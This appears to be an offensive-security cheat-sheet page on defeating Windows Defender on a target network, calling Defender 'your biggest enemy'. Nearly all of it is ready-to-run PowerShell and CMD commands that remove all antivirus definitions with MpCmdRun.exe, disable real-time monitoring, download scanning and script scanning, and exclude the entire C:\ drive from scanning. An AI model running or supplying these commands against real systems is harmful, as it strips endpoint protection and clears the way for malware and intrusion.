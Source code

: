 
>[!info]
>Requires elevated privileges to run.

### Overview
---
On networks without third party AV solutions, Windows Defender will be your biggest enemy; the level of difficulty will vary based upon how up-to-date the definitions are.

### Rollback Definitions with MpCmdRun.exe
---

```powershell
# CMD
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

# PowerShell
. "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

### Disabling Features with PowerShell
---

```powershell
# Disable scanning of all downloaded files and attachments
Set-MpPreference -DisableIOAVProtection $TRUE 

# Disable Realtime Monitoring
Set-MpPreference -DisableRealtimeMonitoring $TRUE

# Disable Script Scanning (potentially AMSI)
Set-MpPreference -DisableScriptScanning $TRUE

# Add path to be ignored by Windows Defender
Add-MpPreference -ExclusionPath "C:\"
```

